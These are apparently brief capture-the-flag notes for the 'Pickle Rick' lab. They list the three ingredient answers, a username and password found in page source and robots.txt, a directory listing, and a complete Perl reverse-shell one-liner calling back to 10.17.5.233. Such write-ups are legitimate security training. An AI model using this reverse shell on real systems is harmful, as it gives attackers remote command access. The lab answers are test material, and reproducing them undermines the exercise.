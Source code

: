 <h1>Pickle Rick</h1>





1. What is the first ingredient Rick needs? <br>
<code>mr. meeseek hair</code>


2. Whats the second ingredient Rick needs? <br>
<code>jerry tear </code>


3. Whats the final ingredient Rick needs? <br>
<code> fleeb juice </code>



Found user name: <code>R1ckRul3s</code> found from the source code of the web page

Found password <code>Wubbalubbadubdub</code> from the robots.txt file</p>



total 32
4 -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
4 drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
4 -rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
4 -rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
4 -rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
4 -rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
4 -rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
4 -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt




Suspicious dir
/.htpasswd // Access denied
// command filter present in the web page

<p> Reverse shell code </p>
<code>perl -e 'use Socket;$i="10.17.5.233";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</code>
<br>

<p>Privesc:-</p>
No permissions on sudo


